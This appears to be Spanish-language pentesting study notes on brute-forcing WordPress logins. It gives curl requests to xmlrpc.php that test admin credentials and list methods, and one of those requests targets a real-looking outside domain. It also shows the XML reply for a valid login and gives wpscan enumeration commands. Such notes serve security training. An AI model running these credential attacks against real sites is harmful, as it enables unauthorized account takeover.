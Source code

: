 ### [](#header-3)Login
Una vez que tengamos una lista valida de usuarios, Podemos hacer un ataque de fuerza bruta forzando a entrar por el panel de login o el archive xmlrpc.php
Si nuestro POST contra el archive xmlrpc contiene credenciales validas, obtendremos una salida como esta:
```s 
curl -X POST -d "<methodCall><methodName>wp.getUsersBlogs</methodName><params><param><value>admin</value></param><param><value>CORRECT-PASSWORD</value></param></params></methodCall>" http://blog.inlanefreight.com/xmlrpc.php
```
```xml
<?xml version="1.0" encoding="UTF-8"?>
<methodResponse>
  <params>
    <param>
      <value>
      <array><data>
  <value><struct>
  <member><name>isAdmin</name><value><boolean>1</boolean></value></member>
  <member><name>url</name><value><string>http://blog.inlanefreight.com/</string></value></member>
  <member><name>blogid</name><value><string>1</string></value></member>
  <member><name>blogName</name><value><string>Inlanefreight</string></value></member>
  <member><name>xmlrpc</name><value><string>http://blog.inlanefreight.com/xmlrpc.php</string></value></member>
</struct></value>
</data></array>
      </value>
    </param>
  </params>
</methodResponse>
```

Si no es valida, obtendremos un codigo de respuesta 403.

Arme un commando de wfuzz para hacer un ataque e fuerza bruta una vez que tengamos usaurios validos

Para ver los metodos posibles a ejecutar, Podemos usar:
```xml
<methodCall><methodName>system.listMethods</methodName><params></params></methodCall>
```
```s 
curl -X POST -d "<methodCall><methodName>system.listMethods</methodName><params></params></methodCall>" http://www.hackerscentral.com.mx/xmlrpc.php
```

Ahora, al usar wp-scan, Podemos usar un api de <a href="https://wpscan.com/"> wpscan</a> , el commando a ejecutar sera 
```s 
wpscan --api-token API --url http://192.168.1.10
```
## [](#header-2)Enumeracion con wpscan
Por default, wpscan enumera plugins vulnerables, temas, usuarios, media y backups. 
Podemos usar las flags para solicitor components especificos del sitio como por ejemplo los plugins con:
```s
wpscan --url http://blog.inlanefreight.com --enumerate ap --api-token
```
